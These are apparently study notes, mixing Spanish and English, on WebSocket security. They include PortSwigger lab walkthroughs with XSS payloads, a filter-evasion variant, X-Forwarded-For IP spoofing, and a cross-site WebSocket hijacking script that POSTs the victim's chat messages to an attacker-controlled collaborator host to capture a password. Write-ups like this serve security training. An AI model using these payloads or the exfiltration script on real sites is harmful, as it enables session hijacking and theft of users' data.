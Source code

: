 # Que son los Websockets

WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:

```
var ws = new WebSocket("wss://normal-website.com/chat");
```

The wss protocol establishes a WebSocket over an encrypted TLS connection, while the ws protocol uses an unencrypted connection.

## Handshake Websockets

To establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:

First 

```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket

```

If the server accepts the connection, it returns a WebSocket handshake response like the following:

```

HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=


```
At this point, the network connection remains open and can be used to send WebSocket messages in either direction

## Explicacion de las cabeceras de Websockets

Several features of the WebSocket handshake messages are worth noting:

1. The Connection and Upgrade headers in the request and response indicate that this is a WebSocket handshake.

2. The Sec-WebSocket-Version request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.
 
3. The Sec-WebSocket-Key request header contains a Base64-encoded random value, which should be randomly generated in each handshake request.
4. The Sec-WebSocket-Accept response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

## Javascript

```
ws.send("Peter Wiener");



```


## Cross-site WebSocket hijacking

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

Perform unauthorized actions masquerading as the victim user. As with regular CSRF, the attacker can send arbitrary messages to the server-side application. If the application uses client-generated WebSocket messages to perform any sensitive actions, then the attacker can generate suitable messages cross-domain and trigger those actions.


Retrieve sensitive data that the user can access. Unlike with regular CSRF, cross-site WebSocket hijacking gives the attacker two-way interaction with the vulnerable application over the hijacked WebSocket. If the application uses server-generated WebSocket messages to return any sensitive data to the user, then the attacker can intercept those messages and capture the victim user's data


In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```


# Manipulating WebSocket messages to exploit vulnerabilities

Para este lab

1. Primero vamos a Live Chat y podemos ver como viajan los datos porque este funciona con un websocket
2. cuando pulsamos send e interceptamos pues nos deja ver que manda la info asi

```
{"message":"masa&gt;"}

```
3. Si nos fijamos un poco en el codigo al parecer hace url encode de hecho si metemos el caracter <> ya cuando manda la peticion que es interceptada por el burp ya
hizo ese proceso por lo cual esta como sanitizando elw codigo ponemos el payload de XSS y se resuleve.

```
{"message":"<img src=1 onerror='alert(1)'>"}

```

# Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

Primero abrimos la pagina y vemos que usa web sockets si intentamos el ataque del ejercicio pasado nos banea la direccion para 
falsificar nuestra ip se usa:

```
X-Forwarded-For: 1.1.1.1

```
 Antes usaste el intercept y mandaste esa peticion al repeater
 
 Como esta detectando nuestro ataque hay dos metodos
 
 
 ```
 {"message":"<img src=1 oNeRrOr=alert`1`>"}
 {"message":"<iframe src='jAvAsCrIpT:alert'1''>"}
 
 ```



# Lab: Cross-site WebSocket hijacking

Abrimos la pagina y vamos a live chat nos damos cuenta que existe un handshake

```
GET /chat HTTP/1.1
Host: 0a86004303bc44f5c0e901ca00a00005.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Upgrade: websocket
Origin: https://0a86004303bc44f5c0e901ca00a00005.web-security-academy.net
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: session=fKUedN2SGDz88MEYg9c3RD6gDqNc77gA
Sec-WebSocket-Key: QutkdXttMx2+F4gNyyxP3Q==

```

```
HTTP/1.1 101 Switching Protocol
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: TjEODRjIn/D2DXqnJawt4Rma+vo=
Content-Length: 0

```

Ahi nos damos cuenta que no protege la session con nada mas que con una cookie por lo tanto si un usuario hace clic en un 
script malicioso que crea una session de ws y controlamos un dominio podriamos interceptar informacion como 
una contraseña o algo asi justo eso se hace


```
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Entonces lo que se simula es que la victima apreto algo y cayo en este scritp el cual hace una especie de man in the middle 
y recibe los mensajes del usuario en tiempo real y los manda al dominio que controlamos sacamos el pass y listo owned

















































